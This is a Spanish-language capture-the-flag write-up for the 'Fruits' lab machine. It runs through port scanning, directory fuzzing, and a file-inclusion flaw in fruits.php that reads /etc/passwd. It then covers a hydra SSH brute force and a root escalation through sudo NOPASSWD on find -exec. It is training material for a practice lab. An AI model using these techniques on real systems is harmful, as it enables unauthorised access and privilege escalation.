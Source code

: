 ## Resolución de la máquina [Fruits]

Puedes descargar la resolución de esta máquina en formato PDF desde el siguiente enlace:

[📄 Descargar PDF - Resolución de la máquina](/Writeups/blob/master/FACIL/The%20Hacker%20labs/ANEXOS/Fruits.pdf)

---

### Reconocimiento inicial

El primer paso para la resolución de la máquina es el reconocimiento. Comenzaremos lanzando un ping para verificar si la máquina está activa y comprobar su TTL. Esto nos dará una idea del sistema operativo al que nos estamos enfrentando. En este caso, el TTL es de 64, lo que indica que probablemente se trate de una máquina Linux.

A continuación, realizamos un escaneo de puertos con `nmap` para identificar cuáles están abiertos. Usamos el siguiente comando:

```bash
sudo nmap --min-rate 5000 -sS -n -Pn -p- -v 192.168.0.132 -oG allports
```


- `--min-rate 5000`: Aumenta la velocidad de escaneo enviando al menos 5000 paquetes por segundo.
- `-sS`: Realiza un escaneo SYN para detectar puertos.
- `-n`: Evita la resolución DNS.
- `-Pn`: Omite el ping para no depender de ICMP.
- `-p-`: Escanea todos los puertos (1 al 65535).
- `-oG allports`: Guarda los resultados en formato `grepable` para un análisis más sencillo.

Resultado: Se detectaron los puertos 22 (SSH) y 80 (HTTP) como abiertos.

Después, realizamos un escaneo de servicios y versiones en estos puertos específicos con el comando:

```bash
sudo nmap -sCV -p22,80 192.168.0.132 -oN targeted
```

- `-sCV`: Detecta servicios, versiones y posibles scripts vulnerables.
- `-p22,80`: Limita el escaneo a los puertos abiertos identificados previamente.
- `-oN targeted`: Guarda los resultados en un archivo legible.




Resultados obtenidos:

```bash
File: allPorts

# Nmap 7.94SVN scan initiated Sat Jan  4 19:39:18 2025 as: nmap --min-rate 5000 -sS -n -Pn -p- -v -oG allports 192.168.0.132
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 192.168.0.132 ()  Status: Up
Host: 192.168.0.132 ()  Ports: 22/open/tcp//ssh///, 80/open/tcp//http///    Ignored State: closed (65533)
# Nmap done at Sat Jan  4 19:39:20 2025 -- 1 IP address (1 host up) scanned in 1.82 seconds
```

```bash
File: targeted

# Nmap 7.94SVN scan initiated Sat Jan  4 19:14:56 2025 as: nmap -sCV -p22,80 -oN targeted 192.168.0.132
Nmap scan report for 192.168.0.132
Host is up (0.00040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ae:dd:1a:b6:db:a7:c7:8c:f3:03:b8:05:da:e0:51:68 (ECDSA)
|_  256 68:16:a7:3a:63:0c:8b:f6:ba:a1:ff:c0:34:e8:bf:80 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: P\xC3\xA1gina de Frutas
MAC Address: 00:0C:29:95:B6:FF (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  4 19:15:03 2025 -- 1 IP address (1 host up) scanned in 7.21 seconds
```




Podemos observar que el puerto 80 está abierto. Al visitar la página web asociada, nos encontramos con la siguiente interfaz:

![](ANEXOS/Pasted%20image%2020250104194453.png)


### Análisis del panel

He intentado interactuar con el panel, pero no parece llevar a ninguna parte útil. Siempre que se utiliza, la página redirige a:

``http://192.168.0.132/buscar.php?busqueda=naranja``

En esta URL, el parámetro `busqueda` cambia según el término ingresado. Esto sugiere que podríamos estar ante un punto de entrada para inyección de parámetros, pero primero debemos realizar más reconocimiento.

### Escaneo inicial con Wfuzz

Antes de proceder con pruebas de inyección, revisé el código fuente de la página, pero no encontré información relevante ni elementos ocultos.

A continuación, realicé un escaneo de directorios con **Wfuzz** para intentar identificar rutas o archivos adicionales en el servidor web. Utilicé el siguiente comando:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc=404,403 -u http://192.168.0.132/FUZZ 
```

- `-c`: Muestra la salida en color para facilitar su lectura.
- `-t 200`: Lanza 200 hilos concurrentes para acelerar el proceso.
- `-w`: Especifica la ruta del diccionario utilizado para el escaneo.
- `--hc=404,403`: Excluye respuestas con códigos de estado HTTP 404 (no encontrado) y 403 (prohibido).
- `-u http://192.168.0.132/FUZZ`: Especifica la URL objetivo, utilizando `FUZZ` como marcador para probar diferentes rutas.



### Escaneo con Gobuster

Tras no encontrar ningún directorio útil con **Wfuzz**, decidí cambiar de herramienta y realizar un escaneo más enfocado en archivos específicos (como `.php`, `.html` o `.js`) utilizando **Gobuster**. Con este enfoque, logré identificar un archivo llamado `fruits.php`:

![](ANEXOS/Pasted%20image%2020250111210453.png)

### Exploración inicial de `fruits.php`

Al acceder a `fruits.php`, la página parece estar vacía y no muestra ningún contenido relevante:

![](ANEXOS/Pasted%20image%2020250112034900.png)


### Siguiente paso: Identificación de parámetros útiles

En este punto, no encontré información aparente en la interfaz ni en el código fuente de la página. Para avanzar, consulté con ChatGPT, quien sugirió probar posibles parámetros en la URL del archivo para ver si se pueden manipular. Una herramienta útil para este propósito es **Wfuzz**.

Mi objetivo era intentar listar los usuarios de la máquina objetivo accediendo al archivo `/etc/passwd`. Para ello, utilicé el siguiente comando:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc=404,403 --hl=1 -u http://192.168.0.110/fruits.php?FUZZ=/etc/passwd
```

- **`FUZZ`**: Lugar donde se insertan las palabras del diccionario para probar diferentes parámetros.
- **`--hl=1`**: Filtra las respuestas que tienen una longitud de 1 línea, ya que suelen ser páginas vacías o errores.


![](ANEXOS/Pasted%20image%2020250112040459.png)


### Explotación del Parámetro `file`

Tras realizar el escaneo con **Wfuzz**, descubrimos que el parámetro `file` en la URL es vulnerable. Esto nos permitió listar el contenido del archivo `/etc/passwd`, que contiene información sobre los usuarios del sistema:

![](ANEXOS/Pasted%20image%2020250112040617.png)

### Identificación de un Usuario

Gracias a la información obtenida de `/etc/passwd`, logramos identificar un usuario válido en la máquina objetivo. Como verificamos al inicio del reconocimiento, el puerto **22 (SSH)** está abierto. Esto nos brinda la oportunidad de intentar un ataque de fuerza bruta para acceder al sistema mediante este servicio.

### Ataque de Fuerza Bruta con Hydra

Utilizamos **Hydra** para realizar un ataque de fuerza bruta contra el servicio SSH, empleando el nombre de usuario identificado previamente y una lista de contraseñas. El comando utilizado fue el siguiente:

```bash
hydra -l <usuario> -P /ruta/a/wordlist.txt ssh://192.168.0.132
```

- **`-l <usuario>`**: Define el nombre del usuario.
- **`-P /ruta/a/wordlist.txt`**: Especifica la lista de contraseñas que se probarán.
- **`ssh://192.168.0.132`**: Indica el protocolo y la dirección IP del objetivo.

![](ANEXOS/Pasted%20image%2020250112180607.png)

### Acceso y Flag

Con estas credenciales, finalmente pudimos acceder a la máquina mediante SSH. Una vez dentro, localizamos la flag y completamos el objetivo.

### Configuración de la TTY para un Entorno Adecuado

Tras acceder a la máquina mediante SSH, es recomendable sanitizar la TTY para trabajar en un entorno más cómodo y funcional. Esto se logra ejecutando los siguientes comandos:

```bash
​export TERM=xterm-256color
​source /etc/skel/.bashrc
```

- **`export TERM=xterm-256color`**: Configura el terminal para usar colores y capacidades avanzadas.
- **`source /etc/skel/.bashrc`**: Carga el archivo de configuración predeterminado para establecer un entorno de trabajo más completo.

### Ajuste de Dimensiones de la TTY

Para asegurarnos de que las dimensiones del terminal sean consistentes con nuestra pantalla, verificamos y ajustamos el tamaño con el comando:

```bash
stty size
```

Este comando muestra el número de filas y columnas del terminal actual. En mi caso, el tamaño fue de **35 rows x 184 columns**, pero debes ajustarlo según las dimensiones de tu terminal.

### Preparación para la Escalada de Privilegios

Con la TTY configurada correctamente, el siguiente paso es verificar si tenemos privilegios especiales en la máquina. Para ello, listamos los permisos de `sudoers` con el comando:

![](ANEXOS/Pasted%20image%2020250112190734.png)

En este caso, descubrimos que el comando `find` puede ejecutarse como **sudo** sin necesidad de proporcionar una contraseña:

```bash
User <usuario> may run the following commands on <máquina>:
    (ALL) NOPASSWD: /usr/bin/find

```

El comando `find` incluye el parámetro `-exec`, el cual permite ejecutar un comando arbitrario en el sistema. Aprovechando esto, podemos generar una shell de Bash con privilegios de **root** y, de esta manera, acceder a la **flag**.

![](ANEXOS/Pasted%20image%2020250112190606.png)

Y así hemos completado esta maquina de nuestros amigos de [The Hackers Labs](https://thehackerslabs.com/)
